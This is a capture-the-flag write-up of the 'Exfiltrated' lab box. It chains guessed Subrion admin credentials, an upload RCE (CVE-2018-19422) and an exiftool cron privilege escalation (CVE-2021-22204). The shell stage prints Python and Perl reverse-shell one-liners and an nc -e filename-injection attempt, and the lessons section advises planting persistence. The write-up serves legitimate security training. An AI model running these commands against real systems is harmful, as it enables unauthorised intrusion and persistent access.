






## Summary

Exfiltrated is a **Medium** Linux box whose entire chain runs through **Subrion CMS 4.2.1** and a careless root cron job. The web root redirects to `exfiltrated.offsec` and exposes an admin panel at `/panel/`; the admin credentials are trivially guessable (`admin:admin`). Authenticated admin access enables an **authenticated file-upload bypass (CVE-2018-19422)** in Subrion, giving remote code execution as `www-data` inside an unstable web shell.

The shell is stabilized with a **Perl** callback. Enumeration then turns up `/opt/image-exif.sh` — a script run **every minute as root by cron** that shells out to `exiftool` over every `.jpg` in the Subrion uploads directory. The installed `exiftool` is **11.88**, vulnerable to **CVE-2021-22204** (DjVu code execution). Dropping a crafted image into the uploads directory triggers the cron job and executes code as root, giving a root shell and both flags. Two intended time-sinks show up along the way: chasing the SQL-execution CVE (CVE-2025-56556) for DB privesc instead of pivoting to RCE, and trying to shell-escape the metadata filename before checking the `exiftool` version.

---

## Recon

### Port scanning

**rustscan**

```bash
rustscan -a "$IP_ADDRESS" -ulimit 5000 -- -sC -sV -oA "/home/julien/.hacklas/targets/track-tjnull/Exfiltrated/nmap/quick"
```

**nmap (full)**

```bash
nmap -sC -sV -p- -oA "/home/julien/.hacklas/targets/track-tjnull/Exfiltrated/nmap/full" "$IP_ADDRESS"

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 c1:99:4b:95:22:25:ed:0f:85:20:d3:63:b4:48:bb:cf (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDH6PH1/ST7TUJ4Mp/l4c7G+TM07YbX7YIsnHzq1TRpvtiBh8MQuFkL1SWW9+za+h6ZraqoZ0ewwkH+0la436t9Q+2H/Nh4CntJOrRbpLJKg4hChjgCHd5KiLCOKHhXPs/FA3mm0Zkzw1tVJLPR6RTbIkkbQiV2Zk3u8oamV5srWIJeYUY5O2XXmTnKENfrPXeHup1+3wBOkTO4Mu17wBSw6yvXyj+lleKjQ6Hnj
e7KozW5q4U6ijd3LmvHE34UHq/qUbCUbiwY06N2Mj0NQiZqWW8z48eTzGsuh6u1SfGIDnCCq3sWm37Y5LIUvqAFyIEJZVsC/UyrJDPBE+YIODNbN2QLD9JeBr8P4n1rkMaXbsHGywFtutdSrBZwYuRuB2W0GjIEWD/J7lxKIJ9UxRq0UxWWkZ8s3SNqUq2enfPwQt399nigtUerccskdyUD0oRKqVnhZCjEYfX3qOnlAqejr3Lpm8nA31pp6lrKNAmQEjdSO8Jxk04O
R2JBxcfVNfs=
|   256 0f:44:8b:ad:ad:95:b8:22:6a:f0:36:ac:19:d0:0e:f3 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBI0EdIHR7NOReMM0G7C8zxbLgwB3ump+nb2D3Pe3tXqp/6jNJ/GbU2e4Ab44njMKHJbm/PzrtYzojMjGDuBlQCg=
|   256 32:e1:2a:6c:cc:7c:e6:3e:23:f4:80:8d:33:ce:9b:3a (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDCc0saExmeDXtqm5FS+D5RnDke8aJEvFq3DJIr0KZML
80/tcp open  http    syn-ack Apache httpd 2.4.41 ((Ubuntu))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://exfiltrated.offsec/
| http-robots.txt: 7 disallowed entries
| /backup/ /cron/? /front/ /install/ /panel/ /tmp/
|_/updates/
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-favicon: Unknown favicon MD5: 09BDDB30D6AE11E854BFF82ED638542B
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The full scan showed no differences from the quick scan. Two services: SSH (8.2p1) and Apache (2.4.41). The artifacts that matter are the **redirect to `exfiltrated.offsec`** (add it to `/etc/hosts`) and the **`robots.txt` disallow list**, which leaks `/backup/`, `/install/`, `/panel/`, `/updates/` and a `/cron/?` entry — the last of which foreshadows the escalation path.

### Enumeration

VHost enumeration came back blank. `feroxbuster` against the resolved host, together with the `robots.txt` entries, points at the admin panel.

#### `/panel/` — Subrion admin

`/panel/` redirects to `exfiltrated.offsec` and presents a site with a link to the admin login:




The admin credentials are guessable (`admin:admin`), which lands an authenticated session:



The dashboard reveals the CMS and version: **Subrion CMS 4.2.1**.

---

## Stage 1: Subrion CMS → File Upload RCE (CVE-2018-19422)

### Dead end: CVE-2025-56556 (SQL tool privesc)

Subrion 4.2.1's admin panel has a **Run SQL Query** feature, and [CVE-2025-56556](https://nvd.nist.gov/vuln/detail/CVE-2025-56556) reports that Moderator-role users can run unrestricted SQL against the backing MySQL DB. From the linked issue ([intelliants/subrion#913](https://github.com/intelliants/subrion/issues/913)):

> Improper Access Control on SQL Query Execution Tool Allows Privilege Escalation and Database Takeover #913
>
> Synopsis
> The Subrion CMS provides a built-in Run SQL Query feature under the admin panel, which is accessible to users with Administrator and Moderator roles. While moderators are expected to have limited capabilities, it was discovered that moderators are able to execute unrestricted SQL queries, including Data Definition Language (DDL) and privileged operations.
>
> Impact
> An attacker with Moderator-level access can:
>
>     Escalate privileges to full MySQL root-equivalent access
>     Add or remove users in the database
>     Delete entire database tables
>
> Recommendation
>
>     Enforce Role-Based Query Restrictions:
>     Restrict the types of SQL queries that Moderator roles can execute via the SQL Tool. These roles should not be allowed to execute high-privilege queries such as: CREATE USER, GRANT, DROP USER, DROP TABLE etc. These queries can be abused to create malicious users with full database access or to delete critical users and data.
>
>     Implement a Whitelist-Based Query Filter:
>     Allow only a predefined set of safe SQL statements (e.g., SELECT, INSERT, UPDATE, SET, WHERE, ORDER BY, GROUP BY, LIMIT, !=, LIKE).
>
> Affected version
>
>     Subrion CMS 4.2.1

Following the CVE write-up gets to a Database page:



The obvious move is to create a privileged DB user:

```sql
CREATE USER 'attacker'@'localhost' IDENTIFIED BY 'attacker';
GRANT ALL PRIVILEGES ON subriondb.* TO 'attacker'@'localhost';
FLUSH PRIVILEGES;
```

This gets stuck and leads nowhere useful for host access — it's DB takeover, not RCE, so it's time to try something else.



### Working path: CVE-2018-19422

[CVE-2018-19422](https://www.exploit-db.com/exploits/49876) is an authenticated file-upload → RCE in Subrion 4.2.1. The public PoC needs its target/credential variables adjusted:

```py
url_login = 'http://exfiltrated.offsec/panel/'
url_upload = url_login + 'uploads/read.json'
url_shell = url_login +  'uploads/'
username = "admin"
password = "admin"
```

There is a full PoC; running it completes the upload bypass and drops a web shell:



Stage result: RCE as `www-data`.

---

## Stage 2: Shell stabilization (www-data)

The web shell drops into an environment that is very unstable — a standard reverse shell won't hold. `/etc/passwd` confirms the interactive local user:

```bash
/etc/passwd
coaran:x:1000:1000::/home/coaran:/bin/bash
```

This behaves like a fake/limited shell, so the next move is a callback. A Python callback fails outright:

```bash
# not working
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.234",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

(On this host `python` is `python3` — worth checking before assuming the binary is missing.) A **Perl** callback does work:

```bash
# got a shell with this
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"192.168.45.234:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

MariaDB is installed:

```bash
accountsservice         
mariadb-client-10.3     
mariadb-client-core-10.3
mariadb-common          
mariadb-server-10.3     
mariadb-server-core-10.3
```

The DB password proved elusive and — as the escalation shows — isn't needed.

Stage result: a stable callback shell as `www-data`.

---

## Stage 3: Root via exiftool cron job (CVE-2021-22204)

### Finding the cron job

`/opt/image-exif.sh` runs **every minute as root** (line 416 of the crontab):

```
* * * * * root bash /opt/image-exif.sh
```

```bash
#! /bin/bash
#07/06/18 A BASH script to collect EXIF metadata

echo -ne "\\n metadata directory cleaned! \\n\\n"


IMAGES='/var/www/html/subrion/uploads'

META='/opt/metadata'
FILE=`openssl rand -hex 5`
LOGFILE="$META/$FILE"

echo -ne "\\n Processing EXIF metadata now... \\n\\n"
ls $IMAGES | grep "jpg" | while read filename;
do
    exiftool "$IMAGES/$filename" >> $LOGFILE
done

echo -ne "\\n\\n Processing is finished! \\n\\n\\n"
```

The script runs `exiftool` as root over every `.jpg` in the world-writable uploads directory.

### Dead end: filename command injection

The first instinct is to abuse the filename in a command-injection style, taking advantage of escaping:

```bash
touch '$(nc 192.168.45.234 4443 -e bash).jpg'
```

The file gets generated in `/opt/metadata/`, but the metadata log shows the payload is treated as a literal filename, not executed — `exiftool` is invoked with the name quoted, so there's no shell escape:

```txt
www-data@exfiltrated:/opt/metadata$ cat 060fba0a1d
ExifTool Version Number         : 11.88
File Name                       : $(nc 192.168.45.234 4443 -e bash).jpg
Directory                       : /var/www/html/subrion/uploads
File Size                       : 0 bytes
File Modification Date/Time     : 2026:02:24 20:56:48+00:00
File Access Date/Time           : 2026:02:24 20:56:48+00:00
File Inode Change Date/Time     : 2026:02:24 20:56:48+00:00
File Permissions                : rw-r--r--
Error                           : File is empty
ExifTool Version Number         : 11.88
File Name                       : hello.jpg
Directory                       : /var/www/html/subrion/uploads
File Size                       : 0 bytes
File Modification Date/Time     : 2026:02:24 20:54:11+00:00
File Access Date/Time           : 2026:02:24 20:55:01+00:00
File Inode Change Date/Time     : 2026:02:24 20:54:11+00:00
File Permissions                : rw-r--r--
Error                           : File is empty
```

### Working path: CVE-2021-22204

The real vulnerability is in `exiftool` itself. Check the version:

```bash
www-data@exfiltrated:/tmp$ exiftool -ver
11.88
```

`exiftool` ≤ 12.23 is vulnerable to **CVE-2021-22204** — arbitrary code execution when parsing a crafted **DjVu** file. It surfaces via `searchsploit`:

```bash
ExifTool Djvu Code Execution - Paper | docs/english/49881-exiftool-djvu
```

The public PoC is [convisolabs/CVE-2021-22204-exiftool](https://github.com/convisolabs/CVE-2021-22204-exiftool). Generate a malicious DjVu-backed image embedding a root callback, place it in `/var/www/html/subrion/uploads` with a `.jpg` name so the cron loop processes it, and wait up to a minute for the root cron to run.

<!-- TODO: payload-generation and drop commands not captured in draft -->

### Root

```bash
root@exfiltrated:~# cd /root
root@exfiltrated:~# whoami
root
root@exfiltrated:~# ifconfig
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.114.163  netmask 255.255.255.0  broadcast 192.168.114.255
        ether 00:50:56:ab:88:60  txqueuelen 1000  (Ethernet)
        RX packets 19838  bytes 4507899 (4.5 MB)
        RX errors 0  dropped 183  overruns 0  frame 0
        TX packets 9204  bytes 7724593 (7.7 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 748  bytes 59384 (59.3 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 748  bytes 59384 (59.3 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

root@exfiltrated:~# ls
proof.txt  snap
root@exfiltrated:~# cat proof.txt
44cd7aa4ce4b458d4aef53430676084a
root@exfiltrated:~# cd /home/coaran/
root@exfiltrated:/home/coaran# ls
local.txt
root@exfiltrated:/home/coaran# cat local.txt
f099ae63f63fd4bde7786d4473661d36
root@exfiltrated:/home/coaran#
```



Stage result: a root shell, `proof.txt` and `local.txt`.

---

## Credentials

| Where                           | Credential          |
| ------------------------------- | ------------------- |
| Subrion admin panel (`/panel/`) | `admin:admin`       |
| Local user                      | `coaran` (uid 1000) |

---

## Key lessons

- **Timebox CVE rabbit holes.** Chasing CVE-2025-56556 for DB privesc stole time from the real RCE path. Give a single CVE ~20 minutes, then enumerate other angles in parallel (a Pomodoro timer helps).
- **Spray payload types when a shell won't stick.** Python failed; Perl worked. Don't retry the same broken payload — walk the full list (internal-all-the-things / revshells) and enumerate which interpreters and binaries actually exist on the host.
- **Check the version of any tool a privileged process touches.** The escalation wasn't filename injection into the script — it was the `exiftool` binary itself (CVE-2021-22204). Version-check the tool _before_ trying to out-clever the wrapper script. → _add to privesc checklist._
- **Test exploit chains one link at a time.** Upload a webshell, confirm it, _then_ use it to call back — don't assume a multi-stage backdoor works first try, especially for more complicated exploits.
- **Escaping single quotes in bash:** `'\''`.
- **`python` is often `python3`** — check before concluding it's absent.
- **Secure access before deep enumeration:** drop an SSH key into `.ssh/authorized_keys` if writable, add a callback cron, plant a second webshell in a different location, and note every credential the moment you find it.

### What went right

- Web enumeration to the Subrion admin panel was done independently.
- Always kept something scanning in the background — the box was never idle.
- Spotted `/opt/image-exif.sh` and the root cron almost immediately. Full commitment came late because it wasn't obvious a `www-data` → root jump was possible, so the DB password hunt was dropped and picked back up ~20 minutes later. The one real drag was GTFOBins showing only read/write for `exiftool`, which prompted a shell-escape / base64 detour before the version-based CVE landed.
- Pushed the escalation through to root rather than fighting to re-establish a lost shell.

---

## Tools & cheat sheet

| Tool                        | Purpose in this box                                | Key command                                                                                   |
| --------------------------- | -------------------------------------------------- | --------------------------------------------------------------------------------------------- |
| `rustscan`                  | Fast initial port sweep feeding nmap               | `rustscan -a <ip> -ulimit 5000 -- -sC -sV`                                                    |
| `nmap`                      | Service/version + script scan, full port range     | `nmap -sC -sV -p- -oA full <ip>`                                                              |
| `feroxbuster`               | Content discovery on the resolved host             | — (command not captured)                                                                      |
| Subrion admin (`/panel/`)   | Guessed login to the CMS                           | `admin:admin`                                                                                 |
| CVE-2018-19422 PoC          | Authenticated Subrion file-upload → RCE (www-data) | EDB 49876, set `username`/`password`/`url_login`                                              |
| Perl reverse shell          | Stable callback where Python failed                | `perl -MIO -e '...IO::Socket::INET(PeerAddr,"<ip>:<port>")...'`                               |
| `exiftool -ver`             | Confirm vulnerable version (11.88)                 | `exiftool -ver`                                                                               |
| `searchsploit`              | Locate the DjVu code-exec paper                    | hit: `49881-exiftool-djvu` (query not captured)                                               |
| CVE-2021-22204 PoC          | Craft malicious DjVu-backed `.jpg` for root cron   | [convisolabs/CVE-2021-22204-exiftool](https://github.com/convisolabs/CVE-2021-22204-exiftool) |
| cron (`/opt/image-exif.sh`) | Root-run exiftool loop over uploads dir (trigger)  | drop payload `.jpg` into `/var/www/html/subrion/uploads`                                      |
